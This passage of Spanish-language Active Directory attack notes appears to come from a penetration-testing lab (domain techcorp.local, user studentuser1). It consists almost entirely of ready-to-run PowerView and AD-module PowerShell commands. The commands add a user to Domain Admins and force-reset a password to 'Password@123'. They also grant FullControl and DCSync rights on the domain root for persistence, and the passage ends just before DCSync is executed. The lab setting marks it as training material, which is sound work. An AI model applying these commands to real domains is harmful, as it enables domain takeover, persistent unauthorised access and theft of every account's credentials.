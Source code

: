 AD module:

`(Get-Acl -Path 'AD:\CN=Domain 
Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match 'studentuser1'}`

Abusando de FullControl usando PowerView:

`Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose`

AD module:

`Add-ADGroupMember -Identity 'Domain Admins' -Members testda`

Abusando de Reseteo de contraseñas con PowerView:

`Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`

AD module:

`Set-ADAccountPassword -Identity testda -NewPassword
(ConvertTo-SecureString "Password@123" -AsPlainText -
Force) -Verbose`

**Persistence using ACLs – Rights Abuse**

- Hay ACL incluso más interesantes de las que se puede abusar.
- Por ejemplo, con privilegios de DA, la ACL de la raíz del dominio se puede modificar para proporcionar derechos útiles como FullControl o la capacidad de ejecutar "DCSync".

Añadir permisos FullControl :

`Add-DomainObjectAcl -TargetIdentity
"dc=us,dc=techcorp,dc=local" -PrincipalIdentity
studentuser1 -Rights All -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp.local -
Verbose`

Usando AD Module:

`Set-ADACL -SamAccountName studentuser1 -
DistinguishedName 'DC=us,DC=techcorp,DC=local' -Right
GenericAll -Verbose`

Añadiendo derechos para DCSync:

`Add-DomainObjectAcl -TargetIdentity
"dc=us,dc=techcorp,dc=local" -PrincipalIdentity
studentuser1 -Rights DCSync -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp.local -
Verbose`

Usando AD Module:

`Set-ADACL -SamAccountName studentuser1 -
DistinguishedName 'DC=us,DC=techcorp,DC=local' -
GUIDRight DCSync -Verbose`

Ejecutamos DCSync:
